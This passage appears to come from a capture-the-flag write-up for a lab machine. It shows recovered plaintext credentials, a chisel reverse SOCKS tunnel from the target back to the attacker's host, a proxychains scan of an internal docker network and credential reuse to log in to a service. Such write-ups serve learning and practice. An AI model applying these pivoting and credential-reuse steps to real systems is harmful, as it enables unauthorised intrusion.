 ```cmd
# seems like a credintials
dev01:Soulless_Developer#2022
```

If we try to ssh with that user and we can't login with that password

```bash
dev01@10.129.168.8: Permission denied (publickey).
```

maybe we keep the password for latter usage and move on

From the docker we have we want to get the ip of the host in the docker network , we can check the arp :

![error](/assets/images/open-source/20220522222022.png)

knowing that we can set a chisel as socks proxy server to scan the host in the docker network

```bash
# @ my side
./chisel_1.7.7_linux_amd64  server -p 8000 --reverse
# @ target
./chisel_1.7.7_linux_amd64 client 10.10.16.31:8000 R:1080:socks
```

and edit the `/etc/proxychains.conf` to have `socks5  127.0.0.1 1080` and in foxy proxy set the proxy to sock5 and port 1080

scanning the host we can see port `3000` is open , we can visit it at our browser

![error](/assets/images/open-source/20220522222635.png)

we can use the credentials we have found earlier to login and it works

